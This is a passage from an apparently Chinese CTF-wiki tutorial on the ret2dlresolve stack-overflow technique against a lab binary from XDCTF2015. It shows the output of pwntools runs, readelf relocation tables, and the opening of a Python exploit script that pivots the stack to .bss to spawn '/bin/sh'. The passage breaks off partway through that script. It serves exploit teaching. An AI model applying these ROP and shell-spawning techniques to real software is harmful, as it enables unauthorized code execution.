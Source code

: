 效果如下，仍然输出了cmd对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage2.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 123406
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 3

这一次，我们同样控制dl_resolve函数中的index_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

```shell
➜  ret2dlresolve git:(master) ✗ readelf -r main  

重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
 偏移量     信息    类型              符号值      符号名称
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
 偏移量     信息    类型              符号值      符号名称
0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

可以看出write的重定表项的r_offset=0x0804a01c，r_info=0x00000607。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
```